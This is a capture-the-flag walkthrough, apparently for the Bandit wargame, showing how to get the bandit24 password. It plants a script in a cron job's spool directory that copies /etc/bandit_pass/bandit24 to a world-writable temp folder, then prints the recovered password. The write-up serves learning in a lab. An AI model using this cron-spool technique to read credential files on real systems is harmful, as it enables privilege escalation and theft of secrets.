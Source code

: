 we see that there is a cronjob for Bandit22.
lets see what it contains.

```bash
cat cronjob_bandit24
	@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
	* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

now lets navigate to the file and see what it does.

```bash
cat /usr/bin/cronjob_bandit24.sh 
	#!/bin/bash

	myname=$(whoami)

	cd /var/spool/$myname
	echo "Executing and deleting all scripts in /var/spool/$myname:"
	for i in * .*;
	do
	    if [ "$i" != "." -a "$i" != ".." ];
    	then
		echo "Handling $i"
		timeout -s 9 60 ./$i
		rm -f ./$i
    	fi
	done
```

to be abel to get the password we will have to write our own script and then grab the password with it.

```bash
nano bandit24.sh 
	#!/bin/bash
	cat /etc/bandit_pass/bandit24 >> /tmp/user99/lv24
```

this will get what is stored in one file and pass it to the defined file.

we first had to give the file and folder permison to be able to be run from the cron job

```bash
	chmod 777 bandit24.sh
	cp bandit24.sh  /var/spool/bandit24/
	chmod 777 /tmp/user99
```

after waiting for a bit we can use `watch` to see when the new file is created

```bash
	watch -n 1 ls
```

we can see that the file `lv24` was created. lets get the content.

```bash
cat lv24 
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
